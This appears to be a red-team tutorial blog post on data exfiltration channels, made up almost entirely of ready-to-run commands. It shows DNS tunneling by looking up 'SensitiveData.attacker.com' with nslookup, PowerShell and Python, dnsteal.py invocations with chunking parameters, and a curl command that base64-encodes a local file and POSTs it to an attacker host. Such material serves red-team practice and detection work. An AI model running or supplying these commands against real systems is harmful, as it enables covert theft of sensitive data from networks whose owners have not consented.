 ```yaml
---
layout: post
title:  "Exfiltration Method for Channels(RTC0014)"
author: redteamrecipe
categories: [ tutorial ]
tags: [red, blue]
image: assets/images/26.jpg
description: "Exfiltration Method for Channels"
featured: true
hidden: true
rating: 4.5
---
```





### DNS Tunneling

1. **Using `nslookup` on Linux/macOS:**

```
nslookup SensitiveData.attacker.com
```


2. **Using PowerShell on Windows:**

```
[System.Net.Dns]::GetHostAddresses("SensitiveData.attacker.com") | ForEach-Object { $_.ToString() }
```


3. **Using Python on Linux/macOS/Windows:**

```
python -c "import socket; print(socket.gethostbyname('SensitiveData.attacker.com'))"
```

This one would send 45 bytes per subdomain, of which there are 4 in the query. 15 bytes reserved for filename at the end.


```
python dnsteal.py 127.0.0.1 -z -v -b 45 -s 4 -f 15
```

This one would leave no space for filename.

```
python dnsteal.py 127.0.0.1 -z -v -b 63 -s 4 -f 0
```

### HTTP Data Encoding

1. **Using `curl` on Linux/macOS to read and encode a file:**

```
curl -o /dev/null -X POST --data-urlencode "data=$(base64 -w 0 /path/to/file.txt)" http://attacker.com/exfil
```
